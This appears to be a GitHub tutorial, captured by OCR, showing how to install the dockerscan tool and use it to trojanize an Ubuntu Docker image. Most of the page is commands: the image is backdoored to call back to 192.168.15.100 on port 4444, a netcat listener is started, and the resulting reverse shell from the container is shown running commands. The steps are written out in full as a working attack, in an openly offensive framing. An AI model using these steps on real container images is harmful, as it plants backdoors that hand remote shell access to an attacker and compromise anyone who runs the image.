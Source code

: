 ```bash
#Install dockerscan by cr0hn
gle003@vb-ubuntu:~$ git clone https://github.com/cr0hn/dockerscan
gle003@vb-ubuntu:~$ cd dockerscan/
gle003@vb-ubuntu:~/dockerscan$ sudo python3.6 -m pip install -U pip
gle003@vb-ubuntu:~/dockerscan$ sudo python3.6 -m pip install dockerscan

#Verify dockerscan
gle003@vb-ubuntu:~/dockerscan$ dockerscan -h
```

> If you have problems to use python pip, you can install with **$ sudo apt-get install python3-pip**

Now you have **dockerscan** installed in your machine. Let's use it to infect an image.

```bash
#Install the ubuntu image
gle003@vb-ubuntu:~$ mkdir backdoor
gle003@vb-ubuntu:~$ cd backdoor/
gle003@vb-ubuntu:~/backdoor$ docker pull ubuntu:latest && docker save ubuntu:latest -o ubuntu-original
gle003@vb-ubuntu:~/backdoor$ export LC_ALL=C.UTF-8
gle003@vb-ubuntu:~/backdoor$ export LANG=C.UTF-8

#Modify the image
#gle003@vb-ubuntu:~/backdoor$ dockerscan image modify trojanize ubuntu-original -l <REMOTE_MACHINE_IP> -p <PORT> -o ubuntu-original-trojanized
gle003@vb-ubuntu:~/backdoor$ dockerscan image modify trojanize ubuntu-original -l 192.168.15.100 -p 4444 -o ubuntu-original-trojanized
```

In this part you need to open another terminal (listener) and run these commands:

**Listener**:

```bash
gle003@vb-ubuntu:~$ nc -v -k -l 192.168.15.100 4444
```

**Attacker**:

```bash
#Start the modified image
gle003@vb-ubuntu:~/backdoor$ docker load -i ubuntu-original-trojanized.tar
gle003@vb-ubuntu:~/backdoor$ docker run -it ubuntu:latest /bin/bash
```

After that you can send commands from the **listener**.

```bash
gle003@vb-ubuntu:~$ nc -v -k -l 192.168.15.100 4444
Listening on [192.168.15.100] (family 0, port 4444)
Connection from 172.17.0.2 33052 received!
connecting people
cat /proc/self/cgroup
12:devices:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
11:pids:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
10:memory:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
9:rdma:/
8:hugetlb:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
7:cpu,cpuacct:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
6:net_cls,net_prio:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
5:cpuset:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
4:blkio:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
3:perf_event:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
2:freezer:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
1:name=systemd:/docker/16baf8912712cb4a0c4da53c0eac0ddc263aa170999e15c7a5bf84db35f41aa7
0::/system.slice/containerd.service
```